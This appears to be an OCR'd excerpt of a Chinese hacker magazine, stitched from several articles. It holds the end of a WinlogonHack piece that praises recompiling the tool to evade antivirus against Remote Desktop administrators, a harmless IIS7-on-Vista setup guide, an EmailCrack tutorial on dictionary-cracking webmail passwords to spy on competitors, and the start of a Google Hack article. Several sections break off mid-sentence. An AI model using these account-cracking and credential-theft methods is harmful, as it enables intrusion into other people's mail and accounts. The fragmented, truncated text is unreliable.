

顺便告诉大家一个好消息！WinlogonHack 的作者把源码也共享出来了，所以大家如果拿到工具时已经被杀软报毒，可以用 VC 修改编译一下，一个“免责声明”的 DLL 又出来了！好了，相信网络上又要刮起一阵腥风血雨了，3389 管理员的噩梦就要开始了！【文章所涉及的 WinlogonHack 软件及源码也在先声中会有提供】

编者按：

配合实用的软件，再利用用户名和密码会节约不少时间。感谢软件作者的“奉献精神”，网络上充满了令人刮目相看的技术吗？

## Vista 下的 IIS——IIS7 的安装与调试

从本文你可以学到：如何在 Vista 下安装调试 IIS7。

前几天买了一台联想的笔记本电脑，预装了 Vista 操作系统。为了以后测试网站源码，我便想安装个 IIS。但是在安装过程中遇到了许多麻烦，因为再也没有原来 XP 中熟悉的属性窗体，取而代之的都是一些很陌生的名词和操作方式。虽然后来经过各方面的研究和查找资料，终于将问题解决，但想到大家可能在以后也会遇到类似问题，这里就把自己的经验奉献出来。作为小菜，我倒觉得这是必不可少的，下面就为大家详细介绍一下 Vista 中 IIS 的安装以及调试。





### 一、安装

首先我们打开“开始”菜单选择“计算机”（如图1），然后选择“卸载或更改程序”（如图2）。在“卸载或更改程序”中选择“打开或关闭 Windows 功能”，这与 Windows XP 中不太一样。

接着打开“Internet 信息服务”各项选项，这里把你所需要安装的服务器选上。因为在 Vista 中，IIS7 的默认安装是并不支持 ASP 和 ASP.NET 的，这里我们全部选上了（如图3）。另外特别要注意选中“万维网服务”中的“应用程序开发”选项里的 ASP 和 ASP.NET（如图4）。











### 二、设置

安装完成后再次进入“控制面板”，选择“管理工具”，在管理工具里就有相关的 IIS 选项。我们选择“Internet 信息服务（IIS）管理器”（如图5）进行 IIS7 的调试。

- 首先选择“Default Web Site”，并双击“ASP”的选项（如图6）进行开启全局环境。我们选择“启用父路径”中的“True”就可以了（如图7）。
- 接下来右键单击“Default Web Site”选项，右击

## 图 8

## 图 9

## 图 10

## 图 11

## 使用 EmailCrack 破解邮件密码

作者：simeon

- 从本文你可以学到：
- 邮件账号的破解知识
- EmailCrack 软件的使用

入侵操作中，在无法直接进行攻击时，邮件木马攻击以及邮件账号破解攻击无疑是一种上佳选择。成功的邮件木马攻击大多不以盗取密码为唯一目标，而是对用户邮件进行拦截、收集邮件中的资料，以及获取邮件主人的个人信息等。本文仅仅演示如何破解邮件账号。

邮件木马破解一般有三种情况：

第一种是用户自己将邮箱密码给忘记了，通过邮件服务器的“忘记密码”提示无法重新设置或者找回密码等。

第二种情况就是出于对其他竞争对手等，想知道对方邮件中的内容，因此对邮件信息进行破解。

第三种就是专业性攻击，攻击邮箱获取资料、掌握个人动态以及截取个人信息等。

### 一、通过邮件账号获取 SMTP 服务器地址

邮件账户“vip2008@vip.sina.com”的邮件服务器地址是 vip.sina.com。有些时候需要在这一步添加上“mail”或者“webmail”，如果能够在 IE 浏览器中打开，该说明服务器是可用的。

图1 获取新浪 VIP 邮件账号的 SMTP 和 POP3 服务器地址

### 说明

1. EmailCrack 是通过 SMTP 服务器对邮件账号进行破解的，因此在邮件破解前，需要知道邮件 SMTP 服务器的地址。同理，如采用 POP3 服务器收邮件软件，则需要获取邮箱的 POP3 服务器地址。
2. 对外提供免费/收费邮件服务的邮件运营商，一般不会在网站上提供邮件使用及邮件密码找回等功能。这些功能中的邮件地址、验证文字、注册新邮件地址、找回邮件密码等地址，这些信息往往藏在用户的相关信息中，可获取 SMTP 和 POP3 服务器地址信息。

### 二、运行 EmailCrack 软件

运行 EmailCrack 程序后如图2所示，在 EmailCrack 中默认提供了 126.com 和 163.com 邮件服务器地址。在进行破解时首先需要选择或者设置邮件服务器的地址，其次需要设置邮件账号名。

说明：

邮件账号名就是被破解的邮件账号，有的账号与真实姓名无关，只需输入“@”前的部分即可。



### 三、设置字典

单击软件界面上的“字典设置”可以选择一个密码字典。在 EmailCrack 中，密码字典是以 dic 结尾的文件，Dic 文件可以通过专业的字典生成工具生成。在本文中我们选择一个已经生成好的密码字典 1.dic，如图3所示。



### 四、开始破解邮件账号

如图4所示，服务器地址为“smtp.126.com”，邮件账号为“bft*”，单击“开始扫描”按钮后开始邮件账号的破解。在扫描信息中会显示尝试的密码信息。

说明：

1. 账号破解成功会显示出“正确”的提示信息，如图5所示。
2. 若邮件服务器采取了安全措施，通过 EmailCrack 获取邮件账号的密码后，系统会限制用户在 10 分钟或者 1 个小时后重新试用邮箱服务。





小结：

邮件账号的破解过程非常简单，只需要知道邮件账号的 SMTP 服务器地址以及选择一个字典文件即可。邮件账号破解的成功主要取决于邮件字典的丰富程度。同时在理论上，如果邮件服务邮箱的防范能力较弱，在用户账号未被登录的时间内可以被破解成功。因此要防止自己邮箱账号不被破解，方法就是设置一个足够强的密码，让破解者花费 1 年或数年的时间来破解。我们相信这样少有人有这个耐心去破解你的邮件账号。

编辑点评：如何设置一个强的密码呢？当然长度越长越好！一般的密码长度至少是 6 位或者 8 位，最好设置 10 位以上密码。看来强度较强的密码并不是那么少见，其实每分钟的破解时间与复杂度是成正比的。

## 再谈 Google Hack

本小节原文：L. S. I

从本文你可以学习到：Google Scanner 的简单介绍及攻击实例。

看标题大家都知道这篇文章应该要讲 Google Hack 了，平时我们都喜欢用 Google 来批量搜索注入点，或者对指定的站点进行扫描，如果运气好的话，可以得到很多有用的信息。

### 一、工具介绍

Google Scanner 扫描器的官方地址是 http://www.google.



